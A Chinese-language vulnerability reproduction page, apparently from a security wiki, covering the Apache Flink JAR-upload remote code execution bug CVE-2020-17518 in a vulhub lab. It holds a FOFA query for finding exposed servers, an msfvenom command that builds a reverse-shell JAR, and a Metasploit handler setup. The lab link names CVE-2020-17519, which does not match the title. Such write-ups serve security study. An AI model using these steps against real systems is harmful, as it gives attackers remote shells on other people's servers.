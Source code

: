 ```yaml
---
title: Apache Flink upload 远程命令执行漏洞 CVE-2020-17518
---
```


# Apache Flink upload 远程命令执行漏洞 CVE-2020-17518

## 漏洞描述

近日,有安全研究员公开了一个Apache Flink的任意Jar包上传导致远程代码执行的漏洞，攻击者通过漏洞可以获取系统权限

## 漏洞影响

<a-checkbox checked>Apache Flink <= 1.9.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGUgRmxpbmsi">FOFA: app="Apache Flink"</a-button>
</a-checkbox>

## 环境搭建

<a-alert type="success" message="https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17519" description="" showIcon>
</a-alert>

</br>

![06d235d4-965d-44e0-91c0-dc69b97bf48d](../../../.vuepress/public/img/06d235d4-965d-44e0-91c0-dc69b97bf48d.png)

## 漏洞复现

点击查看文件上传页面

![bb05ef9f-f86f-4bb5-bbcb-c13424d7aca4](../../../.vuepress/public/img/bb05ef9f-f86f-4bb5-bbcb-c13424d7aca4.png)

打开MSF 生成一个 jar 木马

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx  LPORT=4444 -f jar > test.jar
```

点击 Add 上传 jar 文件

![1fcaa45f-0492-4411-b14f-e4554cf84e5b](../../../.vuepress/public/img/1fcaa45f-0492-4411-b14f-e4554cf84e5b.png)

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

![3def5e8c-6590-4ecd-8b61-dfcb095bdaa0](../../../.vuepress/public/img/3def5e8c-6590-4ecd-8b61-dfcb095bdaa0.png)

点击下 submit

![681f48a7-3501-4f52-8532-5efddcc0074f](../../../.vuepress/public/img/681f48a7-3501-4f52-8532-5efddcc0074f.png)

![16969b72-8db4-42f8-a0e3-b02022ab5f5b](../../../.vuepress/public/img/16969b72-8db4-42f8-a0e3-b02022ab5f5b.png)